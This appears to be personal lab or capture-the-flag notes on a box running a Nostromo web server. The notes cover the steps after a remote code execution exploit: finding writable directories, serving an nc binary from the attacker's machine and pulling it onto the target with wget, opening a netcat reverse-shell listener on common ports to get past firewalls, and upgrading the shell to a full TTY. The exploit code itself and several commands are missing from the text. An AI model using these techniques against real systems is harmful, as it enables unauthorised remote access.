








mywebserver
now look at the nostromo one , I found a direct exploit rce for this one :
the code is in the “exploit” section and is explaied when copied to a file via comments , so do look and read that
also after the exploit , we could only run one single command , so how to get the shell?
we can do this via starting the python server and wget the nc binary from our filesystem to the webserver into the tmp directory or another writable directory , so that the reverse shell may be possible :
first find the writable files via :
[#] find <location> -writable
[#] # find / -perm -755 -not -perm -1000 -exec ls -ldb {} ;

some of them are: tmp , dev/shm , var/tmp , usr/local/
then we run our own server:
python -m SimpleHTTPServer 8000
python3 -m http.server 8000
then we place our own nc binary over the server by executing the command from that folder:

then we wget the command , PS: before that do uname -a for architecture
wget the folder:

then check the file size too
give the file perms 777
then start the listening on attacker's machine : nc -nlvp <port>
PS: while using port use top 10 ports so that firewall might allow it
for top ports:


execute the shell:

now this shell looks bland , not a normal looking linux shell:

we can do this , first we look how man shells are there in the machine

to check for current shell: echo $NOLOGIN
ctrl+z for bg process change

then do fg
then do ctrl+d
can find everything here:
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
1. Python to spawn a PTY
$ python -c 'import pty; pty.spawn("/bin/bash")'
or
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
2. Put the shell in to background with Ctrl-Z
$ Ctrl-Z
3. Examine the current terminal and STTY info and match it
# echo $TERM
# stty -a
The information needed is the TERM type (“xterm-256color”) and the size of the current TTY (“rows 37; columns 146”)
4. Set the current STTY to type raw and tell it to echo the input characters
# stty raw -echo
5. Foreground the shell with fg and re-open the shell with reset
# fg
reset
6. stty size to match our current window
$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 37 columns 146
$ bash -i
7. Set PATH TERM and SHELL if missing
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ export TERM=xterm
$ export SHELL=bash
$ cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
$ export PS1='[\u@\h \W]\$ '
sometimes it gets stuck , so look out , cancel and do again